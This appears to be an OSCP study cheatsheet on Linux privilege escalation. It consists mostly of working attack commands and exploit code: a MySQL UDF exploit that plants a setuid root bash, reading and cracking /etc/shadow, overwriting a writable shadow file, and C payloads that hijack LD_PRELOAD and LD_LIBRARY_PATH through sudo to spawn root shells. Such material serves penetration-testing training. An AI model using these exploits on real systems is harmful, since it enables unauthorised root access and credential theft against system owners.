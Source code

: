 # oscp-cheatsheet

## Linux Privilege Escalation

### Service Exploit - MySQL UDF Exploit
```
https://www.exploit-db.com/exploits/1518

ps aux | grep mysql
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root
use mysql;
Select * from mysql.func;  #to list the user defined functions
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
/tmp/rootbash -p
```
#### Weak File Permission - /etc/shadow Readable
```
ls -la /etc/shadow            #to view the permission of /etc/shadow
cat /etc/shadow               #to view the shadow file
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
su root                       #login with cracked password 'password123'
whoami;id;pwd
```
#### weak File Permission - /etc/shadow Writable
```
ls -la /etc/shadow
mkpasswd -m sha-512 bala123
nano /etc/shadow
su root                           #login with custom password 'bala123123'
whoami;id;pwd
```
### Sudo Shell Escape Sequences

[GTFOBins](https://gtfobins.github.io/)

### sudo environment variables

#### LD_PRELOAD

sudo -l
env_keep+=LD_PRELOAD

(exploit c code preload.c)

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
sudo LD_PRELOAD=/tmp/preload.so /usr/sbin/apache2
```

#### LD_LIBRARY_PATH

```
sudo -l
env_keep+=LD_LIBRARY_PATH

ldd /usr/sbin/apache2
```
(exploit c code library_path.c)
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2
```
